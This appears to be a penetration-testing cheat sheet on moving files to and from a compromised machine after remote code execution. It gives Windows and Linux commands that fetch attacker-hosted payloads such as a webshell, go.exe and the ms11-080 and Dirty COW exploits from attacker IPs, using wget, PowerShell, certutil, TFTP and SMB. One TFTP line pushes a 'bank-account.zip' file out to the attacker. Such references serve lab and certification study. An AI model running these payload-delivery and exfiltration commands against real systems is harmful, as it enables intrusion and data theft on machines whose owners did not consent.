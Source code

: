 # Serving up code
Once we have RCE, we can sometimes want to serve up files or code to download and execute
on the victim (e.g., webshell)

#### HTTP
```sudo service apache2 start
/var/www/html
wget http://192.168.1.42/go.exe
```

#### SIMPLE HTTP
```python SimpleHTTPServer.py```

Will serve up on port 8000 in the folder you run the script from

#### TFTP
```
atftpd --daemon --port 69 /tftp
cd /tftp touch incoming chmod 777 incoming
tftp -i 10.11.0.185 GET test.txt
tftp -i 10.11.0.185 PUT bank-account.zip incoming
```

#### SMB
```
smbserver.py [sharename] /tmp/smbserve/
Dir \\192.168.1.48\sharename
\\192.168.1.48\sharename\go.exe
```





# File Transfer
# Windows
``tftp -i 10.11.0.185 GET test.txt``

```cscript wget.vbs http://10.11.0.158/ms11-080.exe -O C:\lec\ms11-080.exe```
#### Powershell 2
``(new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe", "C:\lec\accesschk.exe")```

#### Powershell 3
```Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```

#### SimpleSMBServer
```smbserver.py lecon /var/www/html```

#### SimpleHTTPServer
```python -m SimpleHTTPServer```

#### FTP


# Linux
```wget http://10.11.0.158/dirty.c -O /tmp/dirty.c```
```scp root@10.11.0.158:~/Downloads/dirty.c .```








#### Windows lol
[BitsAdmin ](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)

```certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>```
